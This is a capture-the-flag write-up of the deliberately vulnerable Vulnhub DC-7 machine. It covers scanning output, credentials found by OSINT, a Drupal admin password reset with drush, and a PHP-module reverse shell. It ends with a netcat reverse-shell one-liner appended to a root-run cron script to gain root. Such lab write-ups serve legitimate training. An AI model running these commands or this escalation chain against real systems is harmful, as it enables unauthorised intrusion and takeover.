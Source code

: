 ```yaml
---
layout: PostSimple
date: 2019-11-23
title:     "Vulnhub - DC 7"
tags: ['medium','drupal','cron']
categories: Vulnhub
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/1.png)
Today, We are going to pwn DC 7 by DCAU7 from Vulnhub


## Description
>DC-7 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
While this isn't an overly technical challenge, it isn't exactly easy.
While it's kind of a logical progression from an earlier DC release (I won't tell you which one), there are some new concepts involved, but you will need to figure those out for yourself. :-) If you need to resort to brute forcing or dictionary attacks, you probably won't succeed.
What you will need to do, is to think "outside" of the box.
Waaaaaay "outside" of the box. :-)
The ultimate goal of this challenge is to get root and to read the one and only flag.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

Download Link : <https://www.vulnhub.com/entry/dc-7,356/>

Lets Begin with our Initial Scan

## Nmap Scan Results

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 d0:02:e9:c7:5d:95:32:ab:10:99:89:84:34:3d:1e:f9 (RSA)
|   256 d0:d6:40:35:a7:34:a9:0a:79:34:ee:a9:6a:dd:f4:8f (ECDSA)
|_  256 a8:55:d5:76:93:ed:4f:6f:f1:f7:a1:84:2f:af:bb:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-generator: Drupal 8 (https://www.drupal.org)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.txt /web.config /admin/ 
| /comment/reply/ /filter/tips /node/add/ /search/ /user/register/ 
| /user/password/ /user/login/ /user/logout/ /index.php/admin/ 
|_/index.php/comment/reply/
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Welcome to DC-7 | D7
MAC Address: 08:00:27:6F:D5:25 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Looks like there is a HTTP port is open so lets start our Gobuster

## Gobuster Result
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.12
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/29 18:24:01 Starting gobuster
===============================================================
/.config (Status: 403)
/.cvs (Status: 403)
/.bash_history (Status: 403)
/.hta (Status: 403)
/.cache (Status: 403)
/.git/HEAD (Status: 403)
/.bashrc (Status: 403)
/.forward (Status: 403)
/.cvsignore (Status: 403)
/.passwd (Status: 403)
/.profile (Status: 403)
/.perf (Status: 403)
/.rhosts (Status: 403)
/.mysql_history (Status: 403)
/.listings (Status: 403)
/.sh_history (Status: 403)
/.ssh (Status: 403)
/.svn (Status: 403)
/.subversion (Status: 403)
/.history (Status: 403)
/.htaccess (Status: 403)
/.web (Status: 403)
/.swf (Status: 403)
/.listing (Status: 403)
/.htpasswd (Status: 403)
/.svn/entries (Status: 403)
/Admin (Status: 403)
/admin (Status: 403)
/ADMIN (Status: 403)
/batch (Status: 403)
/core (Status: 301)
/Entries (Status: 403)
/index.php (Status: 200)
/install.mysql (Status: 403)
/install.pgsql (Status: 403)
/modules (Status: 301)
/node (Status: 200)
/profiles (Status: 301)
/robots.txt (Status: 200)
/Root (Status: 403)
/search (Status: 302)
/Search (Status: 302)
/server-status (Status: 403)
/sites (Status: 301)
/themes (Status: 301)
/user (Status: 302)
/vendor (Status: 403)
/web.config (Status: 200)
===============================================================
2019/11/29 18:27:52 Finished
===============================================================
```

## OSINT 

While checking the webpage it is a ``Drupal CMS`` which is one of the well know CMS.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/1.png)

Cant find anything useful on the pages but ``Think outside the box`` It looks like an hint.
At the end of the page it looks like an username<br/>

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/2.png)

Mostly this ```@``` use in social medias so i searched for the user and found an account on twitter.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/3.png)

And there is a github link
>https://github.com/Dc7User/

## Getting User Credentials

While checking the repo found some credentials.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/4.png)

I tried login in drupal but cant so i tried in ssh.
>dc7user:MdR3xOgB7#dW

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/5.png)

And it worked!!

First is first I checked the home directory and found there is a script running.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/6.png)

Inside ``backup.sh`` I found ``drush`` which is drupal shell

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/8.png)

And the script running as root and www-data so , If we became ``www-data`` and we can get reverse shell using ``backup.sh`` and we can get ``root``.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/7.png)

Since drush is there I googled for drush commands and found 
>https://drushcommands.com/drush-7x/user/user-password/

> drush user-password admin ---password=admin

## Getting Shell as www-data

We successfully logged in with new password ``admin:admin``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/9.png)

Now its time to get reverse shell and found we can upload modules in ``Extend Tab``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/10.png)

I found this 
><https://www.drupal.org/project/php>

I clicked on the Install new module button and uploaded this!

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/11.png)

After checking its enabled I went to ``Content -> Add content -> basic page`` and then select the ``Text format`` to be PHP code and copy paste the reverse shell code.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/12.png)

Clicking Preview while the listener is running i got the shell and we are ```www-data```
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/13.png)


## Privilege Escalation

We already know that the script is running as root and www-data so we can add our reverse shell to get root

``` echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.2.18 4444 >/tmp/f" >> backups.sh ```

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/14.png)

Wait for sometime because cron is running!

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/15.png)

We got Root !!












